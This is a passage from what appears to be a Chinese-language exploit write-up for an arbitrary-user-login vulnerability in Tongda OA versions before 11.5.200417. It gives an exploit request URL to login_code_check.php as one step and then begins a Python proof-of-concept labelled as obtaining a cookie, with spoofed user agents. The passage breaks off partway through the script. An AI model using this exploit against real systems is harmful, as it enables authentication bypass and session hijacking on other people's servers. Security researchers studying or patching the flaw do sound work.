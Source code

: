 > 第三步：

    http://www.0-sec.org/ispirit/login_code_check.php?codeuid={EED2B9FE-F865-DCF1-0E8D-3326AE163F6D}

![](./resource/通达OA<11.5.200417任意用户登录漏洞/media/rId31.png)

> 第四步：

![](./resource/通达OA<11.5.200417任意用户登录漏洞/media/rId32.png)

### 获取cookie poc

    import requests
    import argparse
    import random
    import warnings
    import sys
    import re
    
    class Tond_da_poc():
        def __init__(self,url):
            self.url = url+'/'
            self.user_agent =USER_AGENTS = [
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
        "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
        "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
        "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
        "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
        "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",